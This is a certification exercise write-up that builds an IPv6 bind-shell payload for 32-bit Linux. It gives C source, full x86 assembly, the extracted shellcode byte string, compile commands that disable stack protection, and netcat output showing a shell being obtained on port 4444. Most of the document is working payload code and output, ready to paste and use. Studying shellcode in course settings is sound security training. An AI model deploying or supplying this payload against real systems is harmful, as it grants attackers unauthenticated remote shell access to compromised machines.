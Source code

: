 # Note

This MD file has been created for the SecurityTube Linux Assembly Expert certification (https://www.pentesteracademy.com/course?id=3). Student ID: 1483.

# IPv6

Let's try to change the code in order to listen on all IPv6 interfaces.

In order to better understand IPv6 structure, let's change the C code:

```C
#include <sys/socket.h>
#include <unistd.h>
#include <netinet/in.h>

int main()
{
	int my_socket = socket(AF_INET6, SOCK_STREAM, 0);

	struct sockaddr_in6 my_sockaddr;
	my_sockaddr.sin6_family = AF_INET6;
    	my_sockaddr.sin6_addr = in6addr_any;
    	my_sockaddr.sin6_port = htons(4444);
	bind(my_socket, (struct sockaddr *)&my_sockaddr, sizeof(my_sockaddr));

	listen(my_socket, 0);

	int my_accept = accept(my_socket, NULL, NULL);

	int i;
	for(i = 0; i < 3; i++)
		dup2(my_accept, i);

	execve("/bin/sh", NULL, NULL);

	return 0;
}
```
Let's compile and run the program in order to check it.

```
$ gcc bind_shell_ipv6.c -o C-bind6
$ ./C-bind6 
```

In another terminal:

```
$ netstat -laput |grep "4444"
tcp6       0      0 [::]:4444               [::]:*                  LISTEN      6358/C-bind6
$ nc ::1 4444
id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
exit
```

# ASM

Changes in the previous code are:
 * using a *sockaddr_in6* structure
 * using AF_INET6
 * using *in6addr_any*

##  *sockaddr_in6* structure

Using the manual, *sockaddr_in6* structure is easy to understand:

```
   Address format
           struct sockaddr_in6 {
               sa_family_t     sin6_family;   /* AF_INET6 */
               in_port_t       sin6_port;     /* port number */
               uint32_t        sin6_flowinfo; /* IPv6 flow information */
               struct in6_addr sin6_addr;     /* IPv6 address */
               uint32_t        sin6_scope_id; /* Scope ID (new in 2.4) */
           };
```

Regarding the previous shellcode, the length of *sin6_addr* is different (this will be handled later) and *sin6_flowinfo* must be pushed. This field was not used in the C code, let's fill it with null bytes. A *uint32_t* variable has the size of a register, so a null register will be pushed.

The size of *sockaddr_in6* is easy to get using C code:
```C
$ cat sizeof.c
#include <sys/socket.h>
#include <unistd.h>
#include <netinet/in.h>

int main()
{
	int my_socket = socket(AF_INET6, SOCK_STREAM, 0);

	struct sockaddr_in6 my_sockaddr;
	my_sockaddr.sin6_family = AF_INET6;
    	my_sockaddr.sin6_addr = in6addr_any;
    	my_sockaddr.sin6_port = htons(4444);

	printf("%i\n", sizeof(my_sockaddr));

	return 0;
}
$ gcc sizeof.c -o sizeof
$ ./sizeof 
28
```

In IPv4 previous shellcode 0xa will be replace by 0x1c:

```
push 0x1c ;previously push 0xa
```

## AF_INET6

AF_INET6 value is easy to find:
```
$ for elmt in $(locate socket.h); do grep AF_INET6 $elmt; done
#define AF_INET6	10	/* IP version 6			*/
```
In IPv4 previous shellcode 0x2 will be replaced by 0xa:

```
push word 0xa ;previously push word bx
```

## *in6addr_any*

*in6addr_any* value is easy to find:

```
$ for elmt in $(locate in.h); do grep -i IN6ADDR_ANY $elmt; done
extern const struct in6_addr in6addr_any;        /* :: */
#define IN6ADDR_ANY_INIT { { { 0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0 } } }
```

We will need to push a null register four times.

## Final shellcode

```ASM
global _start

section .text

_start:
	; socketcall
	xor eax, eax
	mov al, 0x66
	xor ebx, ebx
	mov bl, 1

	xor ecx, ecx
	push ecx
	push ebx
	push 0xa
	mov ecx, esp
	int 0x80

	mov edi, eax

	;bind
	xor eax, eax
	push eax
	push eax
	push eax
	push eax
	push eax
	push word 0x5c11
	push word 0xa
	mov edx, esp

	mov al, 0x66
	inc ebx
	push 0x1c
	push edx
	push edi
	mov ecx, esp

	int 0x80


	;listen
	xor eax, eax
	mov al, 0x66
	mov bl, 4
	push eax
	push edi
	mov ecx, esp
	int 0x80

	;accept
	mov al, 0x66
	inc ebx
	xor ecx, ecx
	push ecx
	push ecx
	push edi
	mov ecx, esp
	int 0x80

	xchg   ebx,eax
	
	;dup2 for loop
	xor ecx, ecx
	mov cl, 2

duploop:
	mov al, 0x3f	
	int 0x80
	dec ecx
	jns duploop	

	;execve
	mov al, 0xb
	xor ecx, ecx
	push ecx,
	push 0x68732f6e
	push 0x69622f2f
	mov ebx, esp
	cdq
	int 0x80
```

## Compilation


Let's compile everything:

```
$ bash compile.sh bind_shellcode_ipv6
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
$ bash get-shellcode.sh bind_shellcode_ipv6
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x0a\x89\xe1\xcd\x80\x89\xc7\x31\xc0\x50\x50\x50\x50\x50\x66\x68\x11\x5c\x66\x6a\x0a\x89\xe2\xb0\x66\x43\x6a\x1c\x52\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\xb3\x04\x50\x57\x89\xe1\xcd\x80\xb0\x66\x43\x31\xc9\x51\x51\x57\x89\xe1\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\xcd\x80"
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ ./shellcode 
Shellcode Length:  103
```

And check if everything is working in another terminal:
```
$ netstat -laput |grep 4444
tcp6       0      0 [::]:4444               [::]:*                  LISTEN      9469/shellcode  
$ nc ::1 4444
id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
exit
```

As for the IPv4 shellcode, a Python script could be done in order to automate the port configuration.
